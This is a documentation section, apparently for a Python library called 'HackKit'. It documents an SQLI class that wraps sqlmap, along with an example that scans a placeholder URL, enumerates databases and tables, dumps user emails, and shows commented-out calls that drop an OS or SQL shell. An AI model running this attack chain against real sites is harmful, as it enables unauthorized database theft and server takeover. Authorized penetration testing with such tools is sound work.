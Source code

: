 ### 1. `SQLI`

**Platforms:** Linux, Windows
**Dependencies:** `sqlmap` CLI (installed via apt on Linux or GitHub ZIP on Windows)

#### Methods

| Method                                                                         | Signature                                                         | Description                                                                                                        |
| ------------------------------------------------------------------------------ | ----------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| `__init__()`                                                                   | `def __init__(self) -> None`                                      | Initialize; detects `platform.system()`, calls `automatic_dependency_checking()`.                                  |
| `automatic_dependency_checking()`                                              | `def automatic_dependency_checking(self) -> None`                 | Installs or downloads `sqlmap`. On Linux via `apt`; on Windows downloads ZIP, extracts, installs requirements.txt. |
| `execute_sqlmap(options: List[str])`                                           | `def execute_sqlmap(self, options: List[str]) -> None`            | Runs `sqlmap` with provided options list. Raises `CalledProcessError` on failure.                                  |
| `banner()`                                                                     | `def banner(self) -> None`                                        | Shows `sqlmap --version`.                                                                                          |
| `scan_url(url: str, level: int =1, risk:int=1)`                                | `def scan_url(self, url: str, level: int=1, risk: int=1) -> None` | Performs a basic scan.                                                                                             |
| `enumerate_databases(url: str)`                                                | `def enumerate_databases(self, url: str) -> None`                 | Lists databases.                                                                                                   |
| `enumerate_tables(url: str, db: str)`                                          | `def enumerate_tables(self, url: str, db: str) -> None`           | Lists tables in specified database.                                                                                |
| `dump_table(url: str, db: str, table: str, columns: Optional[List[str]]=None)` | ... -> None                                                       | Dumps full table or only given columns (comma-separated).                                                          |
| `os_shell(url: str)`                                                           | `def os_shell(self, url: str) -> None`                            | Drops an OS-level shell.                                                                                           |
| `sql_shell(url: str)`                                                          | `def sql_shell(self, url: str) -> None`                           | Opens interactive SQL shell.                                                                                       |

##### Example: SQLI Master Example

```python
from HackKit import SQLI

# Initialize
sqli = SQLI()
# Show banner
sqli.banner()
# Scan preparation
target = "http://example.com/vuln.php?id=1"
# 1) Basic scan
sqli.scan_url(target, level=2, risk=3)
# 2) List DBs
sqli.enumerate_databases(target)
# Assume 'users_db'
# 3) List tables
sqli.enumerate_tables(target, db="users_db")
# Assume 'users'
# 4) Dump only id and email
sqli.dump_table(target, db="users_db", table="users", columns=["id","email"])
# 5) Drop OS shell
# sqli.os_shell(target)
# 6) Drop SQL shell
# sqli.sql_shell(target)
```

---